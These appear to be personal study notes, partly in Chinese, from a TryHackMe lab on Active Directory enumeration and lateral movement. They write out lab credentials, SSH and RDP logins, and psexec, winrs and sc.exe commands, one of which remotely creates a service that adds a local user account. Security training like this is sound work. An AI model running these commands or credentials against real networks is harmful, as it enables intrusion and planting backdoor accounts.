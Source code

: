 	--> PowerView
		--> 是PowerSploit專案的偵察腳本部分
		=> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
		
	--> Windows Management Instrumentation ( WMI )
		--> 舉來自 Windows 主機的資訊
		--> 有一個名為“root\directory\ldap”的提供程序，可用於與 AD 互動
		=> https://0xinfection.github.io/posts/wmi-ad-enum/

## Lateral Movement and Pivoting
	--> https://tryhackme.com/r/room/lateralmovementandpivoting
	--> sudo systemctl restart NetworkManager
	--> 10.200.78.101
	--> http://distributor.za.tryhackme.com/creds
		=>  Username: damien.horton Password: pABqHYKsG8L7
	--> ip add show lateralmovement
		=> inet 10.50.77.150/
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> SSH :
			=> ssh za.tryhackme.com\\damien.horton@thmjmp2.za.tryhackme.com
				=> pABqHYKsG8L7
		--> RDP : 
			=> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.200.78.249 /u:damien.horton /p:'pABqHYKsG8L7'
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 橫向移動
		=> 標準管理協定（例如 WinRM、RDP、VNC 或 SSH）連接到網路上的其他電腦
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Administrators and UAC	
		=> 本機帳戶屬於本機管理員群組
		=> 網域帳戶屬於本機管理員群組
		--> 使用者帳戶控制 ( UAC )對本機管理員（預設管理員帳戶除外）施加的限制
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Psexec
		--> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
		--> psexesvc.exe
		--> psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
		
		=> Ports: 445/TCP (SMB)
		=> Required Group Memberships: Administrators
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	WinRM 
		--> 用於遠端向 Windows 主機發送 Powershell 命令
		--> winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
		
		=> Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
		=> Required Group Memberships: Remote Management Users
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	sc遠端 建立服務
		--> sc.exe
			--> 建立並啟動名為「THMservice」的服務
				--> sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
				--> sc.exe \\TARGET start THMservice	
			--> 要停止並刪除該服務
				--> sc.exe \\TARGET stop THMservice
				--> sc.exe \\TARGET delete THMservice	
					